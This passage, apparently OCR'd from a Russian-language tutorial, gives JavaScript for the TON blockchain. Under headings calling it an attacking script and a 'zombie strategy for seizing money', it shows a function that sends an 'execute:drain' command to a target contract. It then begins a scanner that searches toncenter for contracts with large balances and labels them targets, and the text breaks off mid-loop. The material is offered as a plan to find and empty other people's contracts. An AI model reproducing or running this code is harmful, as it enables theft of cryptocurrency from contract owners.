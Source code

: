 ```js
    console.log(`Данные: ${data.data}`);
}

getContractInfo("EQD...");
```

---

## 🧪 Атакующий скрипт: Запросить все средства

```js
async function drainContract(ownerMnemonic, contractAddress) {
    const keyPair = await mnemonicToWalletKey(ownerMnemonic.split(" "));
    const wallet = WalletContractV4.create({ publicKey: keyPair.publicKey, workchain: 0 });
    const seqno = await client.getSeqNo(wallet.address);

    // Отправляем команду на вывод средств
    await wallet.sendTransfer({
        secretKey: keyPair.secretKey,
        seqno,
        messages: [
            internal({
                to: contractAddress,
                value: "0.1",
                body: "execute:drain"
            })
        ]
    });

    console.log("🧠 Приказ отправлен. Ждём результатов...");
}
```

---

# 🧠 Часть 2: Зомби-стратегия захвата денег

Теперь, когда вы понимаете, как работают контракты, пора составить план:

---

### 🧩 Шаг 1: Сканер активных контрактов

Нужно найти "жирные" контракты с большим балансом.

```js
async function scanContracts(limit = 100) {
    let offset = 0;
    while (offset < limit) {
        const res = await axios.get("https://toncenter.com/api/v2/getLastTransactions", {
            params: { count: 100, addr: "", maxLt: "", minLt: "" }
        });

        for (let tx of res.data.transactions) {
            const address = tx.account;
            const info = await axios.post("https://toncenter.com/api/v2/getAddressInfo", {
                address
            });

            if (info.data.code && info.data.balance > 1e9) {
                console.log(`🔥 Цель найдена!`, info.data);
            }
        }

```